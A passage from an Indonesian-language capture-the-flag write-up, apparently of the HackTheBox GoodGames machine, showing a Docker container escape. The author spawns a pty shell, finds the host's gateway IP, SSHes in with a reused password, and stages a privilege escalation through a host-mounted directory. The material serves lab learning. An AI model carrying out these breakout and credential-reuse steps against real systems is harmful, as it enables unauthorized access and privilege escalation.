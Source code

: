 Kita bisa asumsikan direktori /home/augustus merupakan direktori yang dimounting dari host. Oke, kita simpan informasi ini untuk nanti.

#### Finding Host IP

```
# route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.19.0.1      0.0.0.0         UG    0      0        0 eth0
172.19.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
```

Kita bisa asumsikan bahwa IP gateway adalah host dari container sekarang kita berada. Oke sekarang kita punya username **augustus**, alamat IP **172.19.0.1,** dan juga password **superadministrator** yang selalu bisa digunakan ulang. Sekarang langsung kita coba masuk kesana menggunakan informasi yang kita miliki.

```
# python -c 'import pty; pty.spawn("/bin/bash")' 
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Oct 16 10:33:48 2022 from 172.19.0.2
augustus@GoodGames:~$
```

Pada step sebelumnya kita mendapatkan informasi bahwa direktori /home/augustus dimounting ke container 172.19.0.2. Kita bisa memanfaatkan kondisi ini untuk melakukan privilege escalation.

Referensi:

[Privilege Escalation with 2 shells and host mount](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount)

```
augustus@GoodGames:~$ ls -lha
ls -lha
total 1.2M
drwxr-xr-x 2 augustus augustus 4.0K Oct 17 01:29 .
drwxr-xr-x 3 root     root     4.0K Oct 19  2021 ..
-rwxr-xr-x 1 augustus augustus 1.2M Oct 17 01:29 bash
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3.5K Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r----- 1 augustus augustus   33 Oct 16 05:33 user.txt
```
